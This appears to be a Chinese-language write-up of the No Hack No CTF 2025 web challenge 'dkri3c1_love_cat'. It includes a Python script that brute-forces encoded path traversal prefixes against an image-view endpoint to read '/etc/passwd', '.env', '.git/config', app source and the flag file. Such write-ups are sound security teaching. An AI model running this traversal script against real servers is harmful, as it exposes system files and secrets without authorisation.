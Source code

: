 ##### tags: `NoHackNoCTF_2025`
# No Hack No CTF 2025 Web : dkri3c1_love_cat

<style>
.red {
  color: red;
}
.blue {
  color: blue;
}
.purple {
  color: #7D3382;
}
.light_purple {
  color: #810cf5;
}
</style>

<span class=""></span>

## <span class="red">題目</span>

- ![image](https://hackmd.io/_uploads/SJ1Npw8Sxe.png)

## <span class="red">解題過程</span>

1. **一題看起來應該是黑箱 path traversal 題，原因是可以利用 `/view?img=...` 去檢視圖片，那就有機會利用像是 `../../` 之類的方式去 path traversal**

- ![image](https://hackmd.io/_uploads/SJaiTDUHlg.png)

&emsp;

2. **規則有說不能拿自動化工具掃描，那只能自己寫 script 了**

    ```python=
    import requests

    host = 'http://chal.78727867.xyz:1234//view?img='
    common_files = [
        'app.py', '_app.py', 'app.py~', 'app.py.bak',
        'app/app.py', 'app/_app.py', 'app/app.py~', 'app/app.py.bak',
        'src/app.py', 'src/_app.py', 'src/app.py~', 'src/app.py.bak',
        'main.py', 'server.py', 'index.py', 'source.py',
        'flag', 'flag.txt', 'FLAG', 'FLAG.TXT',
        'Flag', 'Flag.txt',
        'banana', 'banana.txt', 'banana.png',
        'config.py', 'settings.py', 'web.py',
        "/etc/passwd", "/etc/hostname", "/windows/win.ini"
        'README.md', '.env', '.git/config',
    ]
    prefixes = [
        #"../", "../../", "../../../", "../../../../",
        "..%2f", "..%2f..%2f", "..%252f", "....//", "..././"
    ]
    exploitation_res = []

    for depth in range(1, 4):
        success = False

        for skip_path in prefixes:
            prefix = skip_path * depth

            for fname in common_files:
                url = host + prefix + fname
                r = requests.get(url)
                if r.status_code == 200:
                    print(f'[+] Found: with {prefix}{fname}')
                    print(r.text[:300])
                    exploitation_res.append(prefix + fname)
                    success = True
                    #break
                else:
                    print(f'[-] with {prefix}{fname}: {r.status_code}')

            #if success:
            #    break

        #if success:
        #    break

        if (not success) and depth == 3:
            print("GG not found app.py or Flag")

    for i in exploitation_res:
        print(i)
    ```
    
&emsp;

3. **在將 `...` 替換為 `..%2f/etc/passwd` 就已經出現成功訊息，這證明了確實存在 path traversal 的漏洞，繼續等待結果就能發現有 `app.py` 以及 `flag.txt`**

- **`app.py` :**
    - ![image](https://hackmd.io/_uploads/HyxZyOLHle.png)

- **`flag.txt` :**
    - ![image](https://hackmd.io/_uploads/HJ0XJ_IBeg.png)

- **flag🚩 :`NHNC{dkri3c1_Like_Cat_oUo_>_<_c8763}`**

&emsp;

## <span class="red">心得</span>

1. **檢查 `app.py` 就能知道因為 code 將 `../` 替換為空字串了，所以用 `../` 作為 payload 就會出現 404**

- **`app.py` :**
    - ![image](https://hackmd.io/_uploads/rkAzl_UBll.png)
